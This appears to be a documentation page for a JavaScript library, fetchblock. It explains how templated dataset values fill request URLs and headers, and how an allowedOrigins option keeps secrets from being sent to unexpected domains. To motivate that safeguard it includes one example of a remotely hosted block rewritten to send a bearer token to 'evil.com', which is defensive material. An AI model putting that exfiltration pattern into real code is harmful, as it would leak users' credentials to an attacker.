 ```yaml
---
sidebar_position: 3
---
```


#  Using Datasets

You'll see in the example above `{{dataset.bearer}}`. When you call `block.run` you can pass in some options, one of them is a special object called `dataset` (name borrowed from [HTMLElement.dataset](https://developer.mozilla.org/en-US/docs/Web/API/HTMLElement/dataset)). And string value in the block is passed through a [liquid template](https://shopify.github.io/liquid/) to flatten those values into the strings. Here's an example:

```js
let block = new fetchblock([
  {
    resource:
      "https://x-colors.herokuapp.com/api/hex2rgb?value={{dataset.hex}}",
  },
]);
let response = await block.run({
  dataset: {
    hex: "000000",
  },
}); // {"hex":"#000000","rgb":"rgb(0, 0, 0)"}
```

Now the caller can pass in a different value. Why is this useful? Because the blocks can also be hosted remotely or reused. For example:

```js
let block = fetchblocks.loadFromURI(
  "https://gist.githubusercontent.com/bgrins/fc9cf06de8b0118bd18e4c3d08cd092b/raw/f3d4fb66655cc2e669a1c83679953b9f3b39e2ca/test.json"
);
let response = await block.run({
  dataset: {
    hex: "ff00ff",
  },
}); // {"hex":"#FF00FF","rgb":"rgb(255, 0, 255)"}
```

You may worry about seeing `dataset.bearer` above. What if the upstream URL changed the block from `"https://api.notion.com/v1/databases/{{dataset.databaseid}}/query"` to `"evil.com/{{dataset.bearer}}"`?

There's a way to prevent this, inspired by [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS). If you pass the dataset as an object with `allowedOrigins` then the fetchblock will throw before attempting to make a request if the domain doesn't match. For example, this will work:

```js
let block = new fetchblock([
  {
    resource:
// highlight-start
      "https://api.notion.com/v1/databases/{{dataset.databaseid}}/query",
// highlight-end
    method: "POST",
    headers: {
      "Notion-Version": "2022-02-22",
      Authorization: "Bearer {{dataset.bearer}}",
    },
  },
]);
let response = await block.run({
  dataset: {
    bearer: {
      value: "secret",
// highlight-start
      allowedOrigins: ["https://api.notion.com"],
// highlight-end
    }
  },
});
```

But if you either omit `allowedOrigins` or set it to an array that doesn't include the domain that's about to be contacted, it will throw an exception:

```js
// Error: Uncaught (in promise) Error: Aborting.
// Attempted to use a disallowed key: bearer at origin
// https://api.notion.com. Allowed origins: https://api.slack.com
let response = await block.run({
  dataset: {
    bearer: {
      value: "secret",
// highlight-start
      allowedOrigins: ["https://api.slack.com"],
// highlight-end
    }
  },
});
```